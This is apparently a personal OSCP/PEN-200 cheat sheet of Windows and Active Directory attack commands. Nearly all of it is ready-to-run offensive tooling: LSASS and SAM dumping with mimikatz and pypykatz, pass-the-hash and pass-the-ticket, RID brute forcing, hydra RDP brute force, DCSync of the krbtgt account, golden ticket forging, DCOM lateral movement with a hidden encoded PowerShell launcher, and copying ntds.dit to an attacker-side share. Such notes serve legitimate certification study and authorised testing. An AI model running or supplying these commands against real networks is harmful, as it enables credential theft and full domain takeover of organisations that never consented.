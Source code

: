 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```
OSCP guidance for enumeration:
---
#oscp #windows-enum #pen-200
```powershell
whoami /groups
(Get-PSReadlineOption).HistorySavePath
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember "$GROUP"
Get-ChildItem -Recurse
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process # or tasklist /SVC
Get-Process | findstr /V /R "svchost winlogon vm3dservice RuntimeBroker vmtoolsd SearchHost lsass"
```

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
net user $USER
runas /user:$USER cmd
.\PsLoggedon.exe \\$OTHER_MACHINE # get users logged into $OTHER_MACHINE
```

Start new powershell with administrator privs:

```powershell
Start-Process PowerShell -verb runas
```

Reboot Windows:

```powershell
shutdown /r /t 0
```

Type powershell history:
```powershell
type $((Get-PSReadlineOption).HistorySavePath)
```

Find which DotNet version is installed:
```powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
```

use winpeas.exe, search for DPAPI: `_Checking for DPAPI Credential Files`_

```powershell
.\Seatbelt.exe -group=all
```

```powershell
$password = ConvertTo-SecureString $PASS -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($USER, $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Run as administrator:
```powershell
Start-Process PowerShell -Verb RunAs
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

# Get installed patches:

```powershell
wmic qfe
```

# Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

# Dump LSASS:
check for #SeDebugPrivilege

```powershell
whoami /priv
#run mimikatz
```

```bash
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M minidump
pypykatz lsa minidump lsass.DMP
```
or using netexec (faster, more modern)
```bash
nxc smb $TARGET_IP -u $USER -p $PASSWORD -M nanodump
```

run in a non-interactive shell
```powershell
$results = .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
echo $results
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
```

check for open shares

```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

wmiexec (on port 445) with hash (administrator account only):
#pass-the-hash #pth #wmiexec
```bash
crackmapexec smb -u administrator -H $HASH -X "powershell -e ..."
impacket-wmiexec -hashes :$HASH Administrator@$TARGET_IP
```
smbclient:
#pass-the-hash 
```bash
smbclient \\\\$TARGET_IP\\$SHARE -U Administrator --pw-nt-hash $HASH
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```bash
impacket-wmiexec -hashes :$NTLM Administrator@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP with clipboard enabled:

```bash
xfreerdp +clipboard /v:$TARGET_IP /u:$USER /cert:ignore
```

Connect with shared folder, and NLA :
```bash
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared /d:$AD_DOMAIN
```

Brute force RDP:

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p $PASSWORD rdp://$TARGET_IP -I
```

Elevate powershell to administrator:
#elevate-powershell #powershell-admin

```powershell
Start-Process powershell -Verb runas -ArgumentList "-NoExit -c cd '$pwd'"
```

mimikatz dump as local admin:
#dump #mimikatz
```powershell
.\mimikatz
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
```

```powershell
$results = .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
echo $results
```

```powershell
$results = .\mimikatz.exe privilege::debug token::elevate lsadump::sam exit
echo $results
```

#pth #overpass-the-hash 

```powershell
sekurlsa::pth /user:$USER /domain:$TARGET_DOMAIN /ntlm:$HASH /run:powershell
#on the new powershell
net use \\$TARGET_IP
.\PsExec.exe \\$TARGET_IP cmd
```
#pass-the-ticket

```poweshell
privilege::debug
sekurlsa::tickets /export
#ls *.kirbi
#select ticket matching target host
kerberos::ptt $TICKET
.\PsExec.exe \\$TARGET_IP cmd
```
mimikatz as domain admin:
#mimikatz #dcsync #dc-sync #krbtgt
```powershell
privilege::debug
lsadump::dcsync /user:$AD_DOMAIN\krbtgt
```

DCOM:
#dcom #lateral-ad-movement 
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$TARGET_IP"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JAB....","7")
```

Golden ticket:
#priv-esc-ad #golden-ticket #krbtgt #kerberos 
```powershell
#start mimikatz
privilege::debug
kerberos::purge
lsadump::lsa /patch
kerberos::golden /user:$USER /domain:$TARGET_AD /sid:$TARGET_SID /krbtgt:$HASH /ptt
misc::cmd
PsExec.exe \\$DOMAIN_CONTROLLER cmd.exe
```

Volume Shadow Copy:
#vshadow #ntds #system-bak
```powershell
reg.exe save hklm\system c:\system.bak
vshadow.exe -p -nw C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit.bak
cp .\ntds.dit.bak \\tsclient\shared
```